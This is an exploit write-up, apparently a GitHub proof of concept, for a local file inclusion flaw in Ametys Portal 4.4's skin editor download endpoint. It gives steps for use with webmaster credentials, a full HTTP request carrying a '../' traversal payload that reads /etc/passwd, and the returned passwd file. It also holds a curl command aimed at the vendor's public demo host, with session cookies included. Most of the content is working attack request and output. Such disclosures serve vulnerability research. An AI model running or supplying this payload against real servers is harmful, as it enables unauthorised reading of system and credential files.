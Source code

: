 ## Exploit Title: Ametys Portal 4.4 - Local File Inclusion

- **Date:** 05.08.2025
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [Ametys Portal](https://www.ametys.org)
- **Software Link:** [Ametys Portal 4.4](https://www.ametys.org/community/en/download/ametys-portal/ametys-portal-4.html)
- **Version:** 1.6.1

![Ametys Portal 4.4](https://raw.githubusercontent.com/capture0x/Ametys-LFI/refs/heads/main/ametys.png)

### POC:

#### Exploit working with manager , webmaster and admin cred 
1. Login with webmaster cred 
2. Click Skin Editor > Resources > Img > any image file
> https://127.0.0.1/cms/plugins/skineditor/file/download?path=../../../../../../../../../../../../../../../../etc/passwd&skinName=demo
4. Catch to request with burp suite , change path with lfi payload 

### Request:

```http
GET /cms/plugins/skineditor/file/download?path=../../../../../../../../../../../../../../../../etc/passwd&skinName=demo HTTP/1.1
Host: 127.0.0.1
Cookie: JSESSIONID=3F87581AEF2EC304640A09D7094D98EE; AmetysAuthentication=YW1ldHlzX2RlbW9fdXNlcnMjd2VibWFzdGVyI05ycnY0RlVPeXgwcENOVEk; tarteaucitron=!gajs=false!matomocloud=false!googlemaps=false!gagenda=false!sharethis=false!dailymotion=false!youtube=false!youtubeplaylist=false; JSESSIONID=DC788DBC176BFB0787DA25FC2C93CE63; _pk_id.2.afd3=4f757134bce0bed6.1754326045.; _ga_2VTM1RYFX8=GS2.1.s1754331048$o1$g1$t1754331054$j54$l0$h0; JSESSIONID-Ametys=719D9B1BA49FE4046DFB966F28FBB385
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://127.0.0.1/cms/www/index.html
Dnt: 1
Sec-Gpc: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```
### Response:

```
HTTP/1.1 200 
Date: Tue, 05 Aug 2025 11:54:47 GMT
Server: Apache
Content-Security-Policy: default-src 'self' https: data: 'unsafe-inline' 'unsafe-eval'; img-src 'self' https: data: blob: 'unsafe-inline' 'unsafe-eval'; frame-src 'self' https: data: ms-word: ms-powerpoint: ms-excel: ms-visio: ms-access: ms-project: ms-publisher: ms-infopath: vnd.libreoffice.command: ; frame-ancestors 'self' http: https: ; connect-src 'self' https: data: 'unsafe-inline' 'unsafe-eval' wss:
Referrer-Policy: strict-origin-when-cross-origin
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Permissions-Policy: accelerometer=(), autoplay=*, battery=(), camera=(), cross-origin-isolated=(), display-capture=(), document-domain=(), encrypted-media=(), execution-while-not-rendered=(), execution-while-out-of-viewport=(), fullscreen=*, geolocation=(), gyroscope=(), magnetometer=(), microphone=(), midi=(), navigation-override=(), payment=(), picture-in-picture=(), publickey-credentials-get=(), screen-wake-lock=(), usb=(), web-share=(), xr-spatial-tracking=()
X-Cocoon-Version: 2.1.13
Content-Disposition: attachment; filename="passwd"
Content-Length: 2247
Cache-Control: max-age=1
Expires: Tue, 05 Aug 2025 11:54:48 GMT
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Language: fr

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sssd:x:112:119:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
tomcat:x:997:997:Apache Tomcat:/:/usr/sbin/nologin
cms:x:1001:1000::/home/cms:/bin/bash
postfix:x:113:121::/var/spool/postfix:/usr/sbin/nologin
glouton:x:996:998:Glouton daemon:/var/lib/glouton:/sbin/nologin
_rpc:x:114:65534::/run/rpcbind:/usr/sbin/nologin
fwupd-refresh:x:115:123:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:116:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dhcpcd:x:117:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
polkitd:x:995:995:User for polkitd:/:/usr/sbin/nologin

```
### Curl Command
```
 curl -s --path-as-is -X POST \
  https://demo.ametys.org/cms/plugins/skineditor/file/download?path=../../../../../../../../../../../../../../../../etc/passwd \
  -H 'Cookie: JSESSIONID=257F55E55C3344E7F4FFA5810A1E3A96; tarteaucitron=!gajs=false!matomocloud=false!googlemaps=false!gagenda=false!sharethis=false!dailymotion=false!youtube=false!youtubeplaylist=false; JSESSIONID=DC788DBC176BFB0787DA25FC2C93CE63; _pk_id.2.afd3=4f757134bce0bed6.1754326045.; _ga_2VTM1RYFX8=GS2.1.s1754331048$o1$g1$t1754331054$j54$l0$h0; JSESSIONID-Ametys=719D9B1BA49FE4046DFB966F28FBB385'
```
![Ametys Portal 4.4](https://raw.githubusercontent.com/capture0x/Ametys-LFI/refs/heads/main/ame.png)

### Video

![Ametys Poc Video](https://github.com/capture0x/Ametys-LFI/raw/refs/heads/main/ametys.mp4)
